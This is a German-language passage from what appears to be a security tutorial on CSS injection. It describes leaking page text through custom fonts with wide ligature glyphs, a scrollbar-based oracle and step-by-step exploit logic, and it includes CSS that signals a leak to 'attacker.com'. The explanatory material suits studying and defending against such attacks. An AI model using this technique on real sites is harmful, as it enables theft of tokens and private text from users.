 1. **Erstellung von benutzerdefinierten Schriftarten**:
- SVG-Schriftarten werden mit Glyphen erstellt, die ein `horiz-adv-x`-Attribut haben, das eine große Breite für ein Glyphen darstellt, das eine zweiziffrige Sequenz repräsentiert.
- Beispiel SVG-Glyph: `<glyph unicode="XY" horiz-adv-x="8000" d="M1 0z"/>`, wobei "XY" eine zweiziffrige Sequenz bezeichnet.
- Diese Schriftarten werden dann mit fontforge in das woff-Format konvertiert.

2. **Erkennung von Breitenänderungen**:
- CSS wird verwendet, um sicherzustellen, dass der Text nicht umbricht (`white-space: nowrap`) und um den Stil der Bildlaufleiste anzupassen.
- Das Erscheinen einer horizontalen Bildlaufleiste, die deutlich gestaltet ist, fungiert als Indikator (Orakel), dass eine bestimmte Ligatur und damit eine bestimmte Zeichenfolge im Text vorhanden ist.
- Das verwendete CSS:
```css
body { white-space: nowrap };
body::-webkit-scrollbar { background: blue; }
body::-webkit-scrollbar:horizontal { background: url(http://attacker.com/?leak); }
```

3. **Exploit-Prozess**:
- **Schritt 1**: Schriftarten werden für Zeichenpaare mit erheblicher Breite erstellt.
- **Schritt 2**: Ein trick mit der Bildlaufleiste wird verwendet, um zu erkennen, wann das Glyph mit großer Breite (Ligatur für ein Zeichenpaar) gerendert wird, was auf die Anwesenheit der Zeichenfolge hinweist.
- **Schritt 3**: Nach der Erkennung einer Ligatur werden neue Glyphen generiert, die dreiziffrige Sequenzen darstellen, wobei das erkannte Paar und ein vorangestelltes oder nachgestelltes Zeichen hinzugefügt werden.
- **Schritt 4**: Die Erkennung der dreiziffrigen Ligatur wird durchgeführt.
- **Schritt 5**: Der Prozess wiederholt sich und enthüllt schrittweise den gesamten Text.

4. **Optimierung**:
- Die aktuelle Initialisierungsmethode mit `<meta refresh=...` ist nicht optimal.
- Ein effizienterer Ansatz könnte den CSS `@import`-Trick beinhalten, um die Leistung des Exploits zu verbessern.

### Textknoten-Exfiltration (II): Leaking des Zeichensatzes mit einer Standard-Schriftart (ohne externe Assets) <a href="#text-node-exfiltration-ii-leaking-the-charset-with-a-default-font" id="text-node-exfiltration-ii-leaking-the-charset-with-a-default-font"></a>

**Referenz:** [PoC using Comic Sans by @Cgvwzq & @Terjanq](https://demo.vwzq.net/css2.html)

Dieser Trick wurde in diesem [**Slackers-Thread**](https://www.reddit.com/r/Slackers/comments/dzrx2s/what\_can\_we\_do\_with\_single\_css\_injection/) veröffentlicht. Der Zeichensatz, der in einem Textknoten verwendet wird, kann **unter Verwendung der Standard-Schriftarten**, die im Browser installiert sind, geleakt werden: keine externen - oder benutzerdefinierten - Schriftarten sind erforderlich.

Das Konzept dreht sich darum, eine Animation zu nutzen, um die Breite eines `div` schrittweise zu erweitern, sodass jeweils ein Zeichen von dem 'Suffix'-Teil des Textes in den 'Präfix'-Teil übergeht. Dieser Prozess teilt den Text effektiv in zwei Abschnitte:
